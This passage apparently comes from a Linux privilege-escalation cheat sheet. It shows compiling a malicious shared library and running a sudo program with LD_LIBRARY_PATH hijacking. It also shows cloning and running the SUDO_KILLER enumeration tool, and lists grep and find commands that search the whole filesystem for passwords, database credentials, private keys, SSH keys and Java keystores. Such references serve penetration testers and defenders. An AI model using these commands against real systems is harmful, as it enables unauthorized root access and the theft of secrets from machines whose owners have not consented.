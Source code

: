 Compile code:

```bash
gcc exploit.c -o /tmp/LIB_NAME.so -nostartfiles -fPIC -shared
```

Run the program with sudo and the env var:

```bash
sudo LD_LIBRARY_PATH=/tmp PROGRAM_NAME
```

### SUDO_KILLER

```bash
git clone https://github.com/TH3xACE/SUDO_KILLER
```

Online mode:

```bash
./sudo_killer.sh -c -e -r report.txt -p /tmp
```

Offline mode:

```bash
./sudo_killer.sh -c -i /path/sk_offline.txt
```

## Sensitive files

### Find password

```bash
grep -rnw '/' -ie 'pass' --color=always 2>/dev/null 
grep -rnw '/' -ie 'password' --color=always 2>/dev/null 
grep -rnw '/' -ie 'DB_PASS' --color=always 2>/dev/null
grep -rnw '/' -ie 'DB_PASSWORD' --color=always 2>/dev/null
grep -rnw '/' -ie 'DB_USER' --color=always 2>/dev/null
grep -rnw '/' -ie 'PRIVATE KEY' --color=always 2>/dev/null

find / -type f -regex '.*\.\(php\|log\|xml\|txt\)' -exec grep --color=auto  -i 'password' {} \; -print 2>/dev/null
```

### SSH Key

```bash
find / -name authorized_keys 2>/dev/null
find / -name id_rsa 2>/dev/null
```

### JKS & JCEKS

```bash
find / -name *.jks 2>/dev/null
find / -name *.jceks 2>/dev/null
find / -name *.keystore 2>/dev/null
```
